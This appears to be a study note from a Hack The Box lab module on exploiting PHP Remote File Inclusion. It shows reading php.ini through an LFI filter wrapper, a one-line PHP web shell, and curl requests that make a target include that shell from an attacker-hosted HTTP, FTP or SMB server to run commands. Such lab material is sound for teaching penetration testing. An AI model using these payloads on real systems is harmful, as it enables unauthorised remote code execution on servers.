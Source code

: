 We may also be able to include remote files "[Remote File Inclusion (RFI)](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.2-Testing_for_Remote_File_Inclusion)", if the vulnerable function allows the inclusion of remote URLs. This allows two main benefits:

1. Enumerating local-only ports and web applications (i.e. SSRF)
2. Gaining remote code execution by including a malicious script that we host

In this section, we will cover how to gain remote code execution through RFI vulnerabilities. The [Server-side Attacks](https://academy.hackthebox.com/module/details/145) module covers various `SSRF` techniques, which may also be used with RFI vulnerabilities.

### Verify RFI
Any remote URL inclusion in PHP would require the `allow_url_include` setting to be enabled.

We can use the LFI vulnerability
```bash
php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini
```

```bash
adot8@htb[/htb]$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP' | base64 -d | grep allow_url_include

allow_url_include = On
```

We can test RFI using the current page and localhost IP
```bash
curl http://10.10.10.10/index.php?language=http://127.0.0.1:80/index.php
```

If It's the same we can do the following

#### HTTP
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php

updog -p 80
```

```bash
curl http://10.10.10.10./index.php?language=http://10.10.15.155/shell.php&cmd=id
```

#### FTP
```bash
python -m pyftpdlib -p 21
```

```bash
curl http://10.10.10.10./index.php?language=ftp://10.10.15.155/shell.php&cmd=id
```

#### SMB
```bash
impacket-smbserver -smb2support share $(pwd)
```

```bash
curl http://10.10.10.10./index.php?language=\\10.10.15.155\share\shell.php&cmd=id
```